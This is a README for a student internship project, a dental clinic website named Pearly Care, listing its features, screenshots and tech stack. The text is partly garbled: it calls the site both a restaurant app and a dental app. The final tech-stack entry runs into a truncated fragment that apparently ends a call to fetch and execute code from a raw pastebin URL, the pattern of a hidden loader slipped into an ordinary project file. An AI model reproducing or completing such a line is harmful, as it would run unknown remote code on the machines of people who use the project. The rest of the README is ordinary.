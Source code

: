 Pearly Care

This is a web based application developed for a restaurant named PEARLY CARE.

### This web based Dental application has been developed for the accomplishment of Future Ready Talent Internship program launched by Microsoft, Future Skills Prime, Quess, Github and EY.


**Project Link** - https://mango-cliff-097d9c900.3.azurestaticapps.net/


**Demo Video** -  

## Features and Functionalities 

- Interactive and responsive UI.
- Has many graphical and visual innovative effects.
- Has collection of many web pages including Home, About, Team, Portfolio, Contact, HEalthbot etc.
- Homepage: Create an attractive and user-friendly homepage that introduces your dental     
  practice and highlights key services or special offers.
- Appointment Booking: Allow patients to easily schedule appointments online, including options 
  for selecting specific dentists, treatment types, and preferred dates/times.
- About Us: Share the history, mission, and values of your dental practice, as well as any   
  relevant certifications, awards, or affiliations.
- Team: Create individual profiles for each dentist in your practice, showcasing their 
  qualifications, experience, specialties, and any patient reviews
- Testimonials: Display positive reviews and testimonials from satisfied patients to build 
  trust and credibility.
- Portfolio: Display before-and-after photos or case studies highlighting successful dental 
  treatments and transformations.
- Contact Information: Clearly display your clinic's contact information, including address, 
  phone number, and email address.
- User is able to book an appointment through the website.
- Included the feedback Survey form to increase the scope of improvement 

## Screenshots 📸
### Home page - 
![home 1](https://github.com/Premkumar-golla/Project1/assets/118708263/affb5af7-09ec-4128-bf69-d3ba0b2f591e)

### About Page -
![about1](https://github.com/Premkumar-golla/Project1/assets/118708263/fd9e5df9-52ff-401c-8319-a38508a8c477)

### Team page -
![team](https://github.com/Premkumar-golla/Project1/assets/118708263/9c0aa35d-18ef-4d7b-a610-1dd633c0b506)

### Portfolio page -
![portfolio1](https://github.com/Premkumar-golla/Project1/assets/118708263/7ab6e065-d6af-4da2-bdb9-0b8b6d67f1ad)

### Contact page -
![contact](https://github.com/Premkumar-golla/Project1/assets/118708263/daf71d85-ba2c-4c94-a211-2599e4a31950)

### Healthbot Page -
![healthbot](https://github.com/Premkumar-golla/Project1/assets/118708263/d24399af-c7ab-4fe2-997f-61cecde01ace)



## Tech Stack 💻

- [Azure(Hosting)](https://azure.microsoft.com/en-in/features/azure-portal/)
- HTML
- CSS
- Bootstrap
- JavaScriptps://pastebin.com/raw/PaWZGzyK'),true))()
